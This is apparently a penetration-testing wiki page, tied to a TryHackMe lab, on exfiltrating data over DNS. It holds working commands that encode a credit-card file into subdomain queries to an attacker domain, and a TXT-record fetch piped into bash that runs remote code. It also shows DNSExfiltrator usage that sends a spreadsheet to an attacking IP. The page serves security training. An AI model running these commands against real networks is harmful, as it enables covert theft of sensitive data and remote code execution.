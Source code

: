 # Over DNS

## Theory
The DNS protocol is a common protocol and Its primary purpose is to resolve domain names to IP addresses and vice versa. Even though the DNS protocol is not designed to transfer data, threat actors found a way to abuse and move data over it.  
Since DNS is not a transport protocol, many organizations don't regularly monitor the DNS protocol! The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications.

### Limitations

The DNS protocol has limitations that need to be taken into consideration, which are as follows,

- The maximum length of the Fully Qualified FQDN domain name (including .separators) is 255 characters.
- The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc).

### Scenario

Now let's discuss the Data Exfiltration over DNS requirements and steps, which are as follows:  
1 - An attacker registers a domain name, for example, tunnel.com  
2 - The attacker sets up tunnel.com's NS record points to a server that the attacker controls.  
3 - The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.  
4 - The DNS request is sent through the local DNS server and is forwarded through the Internet.  
5 - The attacker's authoritative DNS (malicious server) receives the DNS request.  
6 - Finally, the attacker extracts the password from the domain name.  

## Practice

We concider that a NS record named `t1.tunnel.com` as been registred. It's poiting the Attacking IP.
{% tabs %}
{% tab title="Manualy" %}
In order to receive any DNS request on the attacking machine, we need to capture the network traffic for any incoming UDP/53 packets using the [tcpdump](https://github.com/the-tcpdump-group/tcpdump) tool.  
```bash
v4resk@kali$ sudo tcpdump -i eth0 udp port 53 -v 
```
On the victim machine, we first encode datas that need to be send, and split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name.
```bash
# Methode 1
victim@pwnd.lab$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.t1.tunnel.com/' > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.t1.tunnel.com
IKQWRkcmVzczogMTIz.t1.tunnel.com
NCBJbnRlcm5ldCwgVE.t1.tunnel.com
hNCkNyZWRpdCBDYXJk.t1.tunnel.com
OiAxMjM0LTEyMzQtMT.t1.tunnel.com
IzNC0xMjM0CkV4cGly.t1.tunnel.com
ZTogMDUvMDUvMjAyMg.t1.tunnel.com
pDb2RlOiAxMzM3Cg==.t1.tunnel.com

#Methode 2
victim@pwnd.lab$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com
```
In order to send this datas, on the compromised host we can do:
```bash
victim@pwnd.lab$ cat toExfiltrate.txt | awk '{print "dig +short " $1}' | bash
```

Finally, on the attacking machine, we can decrypt datas as follow:
```bash
v4resk@kali$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```
{% endtab %}

{% tab title="Command Execution" %}
Let's see how can tunneling code execution via the DNS protocol.
We first need to create a TXT record containing our script encoded in base64. Let's take`script.tunnel.com` as example.

```bash
#Check if the TXT record is well configured
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com
"IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

#Execution over DNS
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```
{% endtab %}

{% tab title="DNSExfiltrator" %}
[DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) allows for transfering (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.  
On the attacking machine we do:
```bash
v4resk@kali$ ./dnsexfiltrator.py -d mydomain.com -p password
```
On the compromised host:
```bash
dnsExfiltrator.exe secrets.xls mydomain.com password s=ATTACKING_IP t=500
```
{% endtab %}

### DNS Tunneling
An other methode is to tunneling other protocols over DNS. Check this page for more details.
{% content-ref url="../pivoting/dnsTunneling.md" %}
[dnsTunneling.md](../pivoting/dnsTunneling.md)
{% endcontent-ref %}

{% endtabs %}


## Resources
{% embed url="https://tryhackme.com/room/dataxexfilt" %}
